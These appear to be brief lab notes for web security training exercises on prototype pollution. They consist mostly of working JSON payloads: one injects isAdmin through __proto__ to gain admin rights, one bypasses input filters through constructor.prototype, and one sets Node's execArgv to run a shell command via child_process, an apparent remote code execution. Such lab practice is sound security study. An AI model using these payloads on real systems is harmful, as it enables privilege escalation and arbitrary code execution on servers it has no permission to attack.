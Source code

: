 # Use DOM Invader

## if alert() was not triggered:
Click Exploit again. In the new tab that loads, append a minus character (-) to the URL and reload the page. 

==========================================ADMIN ESCALATION=============================================
## Escalation to admin

```
{"address_line_1":"Wiener HQ",
"address_line_2":"One Wiener Way",
"city":"Wienerville",
"postcode":"BU1 1RP",
"country":"UK",
"sessionId":"32rXOzL7o03dJIOblnSFC5mTqd86xack",
"__proto__": {
    "isAdmin":"true"
}}
```
## Bypassing flawed input filters

```
"constructor": {
    "prototype": {
        "isAdmin":true
    }
}
```

=========================================READ CARLOS/SECRET============================================

## Remote Code Execution

```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```
